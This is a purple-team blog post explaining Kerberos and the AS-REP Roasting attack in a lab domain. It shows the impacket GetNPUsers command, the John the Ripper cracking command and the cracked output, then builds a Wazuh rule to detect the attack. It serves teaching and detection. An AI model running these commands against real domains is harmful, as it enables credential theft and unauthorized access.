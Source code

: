 ```yaml
---
title: AS-REP Roasting - MITRE ATT&CK T1558.004
date: 2025-04-27 13:00:00 
last_modified_at: 2025-04-27 13:00:00
categories: [Purple Team,Active Directory & Kerberos Abuse]
tags: [active directory,asrep roasting,hashcat,kerberos,mitre att&ck,cybersecurity,penetration testing,purple team]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post5/kerberos.png
  alt: "AS-REP Roasting Attack - Kerberos Authentication Exploitation"
author: Ahmed BAHYA
excerpt: "Learn about AS-REP Roasting attack (MITRE ATT&CK T1558.004), a Kerberos authentication exploitation technique. Complete walkthrough with detection and response using Wazuh SIEM."
description: "Comprehensive guide to AS-REP Roasting attack (MITRE ATT&CK T1558.004). Learn how attackers exploit Kerberos pre-authentication, practical demonstration, and detection using Wazuh SIEM for cybersecurity defense."
keywords: [as-rep roasting, kerberos, active directory, mitre att&ck, t1558.004, cybersecurity, penetration testing, purple team, wazuh, siem, detection, response, hashcat, john the ripper]
canonical_url: https://b2hu.me/posts/AS-REP-Roasting-Attack
---
```


## Table of Contents
- [What is Kerberos?](#what-is-kerberos)
- [AS-REP Roasting](#as-rep-roasting)
- [Attack Simulation](#attack-simulation)
- [Detection & Response](#detection--response)
- [Conclusion](#conclusion)

---
Hello everyone, thank you for being here. In this blog post, I will demonstrate and simulate a very classic yet interessting Active Directory and Kerberos abuse attack: the **AS-REP Roasting** attack. So, let's get started!
## What is Kerberos ?
Kerberos is a network authentication protocol designed to provide strong authentication for client-server applications using ticket-based cryptography. Developed by MIT, it is the default authentication mechanism in Microsoft Active Directory (AD) environments.
### Kerberos components :
Kerberos authentication involves three main components:

- **Key Distribution Center (KDC)** – The central authority that issues tickets, the KDC has two main components :
  - **Authentication Service (AS)** – Verifies user identity and issues Ticket-Granting Tickets (TGTs).
  - **Ticket-Granting Service (TGS)** – Grants service tickets for accessing resources.

- **Client** – The user or service requesting access.

- **Service Server** – The resource the client wants to access (e.g., a file share, SQL server).
### The Kerberos Authentication Flow (simplified) :

1. **AS-REQ** (Authentication Service Request) : – The client requests a TGT from the AS.

2. **AS-REP** (Authentication Service Reply) : – If pre-authentication is enabled, the AS verifies the user’s credentials and sends an encrypted TGT.

3. **TGS-REQ** (Ticket-Granting Service Request) : – The client sends the TGT to the TGS to request a service ticket.

4. **TGS-REP** (Ticket-Granting Service Reply) : – The TGS issues a service ticket for the requested resource.

5. **AP-REQ** (Application Request) : – The client presents the service ticket to the target server.

6. **AP-REP** (Application Reply) : – The server grants access.

this image below represents the kerberos flaw, as stated before :

![screen_1](/./media/post5/krbmsg.gif)

## AS_REP Roasting :
**AS-REP Roasting** exploits a weakness in Kerberos when **pre-authentication** is disabled for a user account. Without pre-authentication, an attacker can request a TGT (no password aka anyone can) for the user and receive an encrypted AS-REP message, which can be cracked offline to reveal the user’s password. Luckily in **Kerberos v5** the preauth is enabled by default and you have to manually disable it, the only reason i think sys admin would disble it is for backward compatibility with Kerberos v4 libraries that might be used by some legacy applications,those account by default do not require a password.
## ATTACK Simulation (AS-REP Roasting Attack Demonstration) :
In this practical demonstration, we'll simulate an **AS-REP Roasting** attack in our test environment and identify **key Indicators of Attack (IoAs)** that would alert defenders to such malicious activity.

**Lab Environment Details:**

- Target Domain: **iccn.ma**

- Vulnerable Account: **iccn.ma/jdoe** (pre-authentication disabled)
the **jdoe** user properties must be set up with preauth disabled just as follows : 

![screen_2](/./media/post5/jdoe_prop.png)

### Attack
for the asrep abuse we'll use the impacket script **GetNPUsers.py** script :
```shell
impacket-GetNPUsers -no-pass iccn.ma/jdoe -dc-ip 10.0.2.16 
```
after execuring this command we'll get the ASREP (TGT + Session key), the session key is the one that's encrypted wiht the user jdoe password's hash.
now we can move to offline cracking, we can use tools like hashcat or JTR (john the ripper), for this demo i'll user JTP with rockyou.txt password list, the command is like this : 
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgt.txt 
```
after a while (depending on the domain password policy), we can get this output :
```shell
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123      ($krb5asrep$23$jdoe@ICCN.MA)     
1g 0:00:00:00 DONE (2025-04-28 23:28) 6.250g/s 211200p/s 211200c/s 211200C/s katten..redlips
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
as we can see the password of the **iccn/jdoe** user is **Password123** 
and just like that the attacker has now a foothold in your domaina and can perfom even more enumeration to find weakspots.


## Detect & respond to the Attack Using _Wazuh_

every TGT Request to the DC is logged with this **4768**, remember it because we'll need it later when we create detection rules in **_wazuh_**. You can see the event in windows event viewer just like this :

![screen_3](/./media/post5/windows_event.png)

The objective of this detection is to generate alerts whenever an **unauthorized IP** makes a **TGT request** to Domain Controller (DC) accounts that have **pre-authentication disabled**. To achieve this, we'll use Wazuh and its powerful capabilities for customizing detection rules and variables.

By default, Wazuh includes a rule for TGT requests; however, it is set at level 0, which means it does not generate alerts. Instead of modifying this built-in rule, we'll create a child rule that triggers whenever the parent rule fires. This approach gives us better control and flexibility over the detection logic.

Let’s analyze the following rule:

```xml
<var name="acc_no_pre_auth">jdoe</var>
<group name="security_event, windows,">
  <rule id="110002" level="12">
    <if_sid>60103</if_sid>
    <field name="win.system.eventID">^4768$</field>
    <field name="win.eventdata.TargetUserName">$acc_no_pre_auth</field>
    <match name="win.eventdata.IpAddress" negate="yes">10.0.2.17</match>
    <options>no_full_log</options>
    <description>Possible ASREP Roast Attack from $(win.eventdata.IpAddress) to a no-preauth account: $(win.eventdata.TargetUserName)</description>
    <mitre>
        <id>T1558.004</id>
    </mitre>
    <info type="link">https://attack.mitre.org/techniques/T1558/004/</info>
  </rule>
</group>
````
This child rule (ID: 110002) is triggered when its parent rule (60103) is matched. It includes conditions aligned with our detection objective:

1. It only triggers if the **TargetUserName** matches an account with pre-authentication disabled, defined in the variable **$acc_no_pre_auth**.
2. It ensures the IpAddress is not equal to the legitimate IP address **10.0.2.17**.

The generated alert includes useful metadata like the MITRE ATT&CK technique ID and a link for further reading.

Next, we simulate the attack from a Linux machine with the IP address 10.0.2.20:

![screen_4](/./media/post5/ifconfig.png)
After using the Impacket script (as in the previous attack simulation). In the Wazuh Dashboard, we can observe that an alert was successfully generated:
![screen_5](/./media/post5/alert.png)
we can further inspect the content of the alert using drilldowns 
![screen_6](/./media/post5/desc_1.png)

## Conclusion
This detection strategy successfully leverages Wazuh’s rule customization and variable substitution capabilities to detect **ASREP Roasting** attacks. By creating a child rule that monitors for TGT requests to accounts with preauthentication disabled—only from unauthorized IPs— we ensure targeted and meaningful alerts without modifying Wazuh’s built-in rules. This approach enhances flexibility and maintains rule integrity. As demonstrated, a simulated ASREP Roasting attempt from an untrusted IP triggered a precise alert, confirming the effectiveness of this method in identifying potential lateral movement or credential dumping attacks in an Active Directory environment.

I hope You have enjoyed reading this blog post,f you have any questions or need help implementing a similar setup, feel free to ask!

---

<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "TechArticle",
  "headline": "AS-REP Roasting - MITRE ATT&CK T1558.004",
  "description": "Comprehensive guide to AS-REP Roasting attack (MITRE ATT&CK T1558.004). Learn how attackers exploit Kerberos pre-authentication, practical demonstration, and detection using Wazuh SIEM for cybersecurity defense.",
  "image": "https://b2hu.me/media/post5/kerberos.png",
  "author": {
    "@type": "Person",
    "name": "Ahmed BAHYA",
    "url": "https://b2hu.me"
  },
  "publisher": {
    "@type": "Organization",
    "name": "ThreatLenz",
    "logo": {
      "@type": "ImageObject",
      "url": "https://i.pinimg.com/236x/19/27/c0/1927c03f9e435636a71698616c4416fb.jpg"
    }
  },
  "datePublished": "2025-04-27T13:00:00+00:00",
  "dateModified": "2025-04-27T13:00:00+00:00",
  "mainEntityOfPage": {
    "@type": "WebPage",
    "@id": "https://b2hu.me/posts/AS-REP-Roasting-Attack"
  },
  "keywords": "as-rep roasting, kerberos, active directory, mitre att&ck, t1558.004, cybersecurity, penetration testing, purple team, wazuh, siem, detection, response, hashcat, john the ripper",
  "articleSection": "Purple Team",
  "inLanguage": "en-US"
}
</script>

